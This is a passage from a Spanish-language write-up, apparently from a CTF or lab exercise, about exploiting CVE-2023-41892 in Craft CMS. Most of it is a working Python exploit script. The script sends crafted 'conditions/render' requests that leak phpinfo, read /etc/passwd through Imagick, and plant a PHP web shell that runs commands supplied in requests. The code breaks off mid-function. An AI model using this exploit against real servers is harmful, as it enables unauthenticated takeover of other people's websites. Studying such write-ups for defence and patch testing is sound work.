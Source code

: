 Investigando por Google podemos ver que existe una vulnerabilidad [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892) relacionada con esta versión de Craft CMS. La vulnerabilidad nos permite ejecución remota de código sin necesidad de autenticación.

![](../../../Imágenes/image-16%202.png)

### Prueba de concepto

Esta vulnerabilidad es fácil de explotar utilizando este [exploit](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce):

```
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://localhost:8080"})

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
```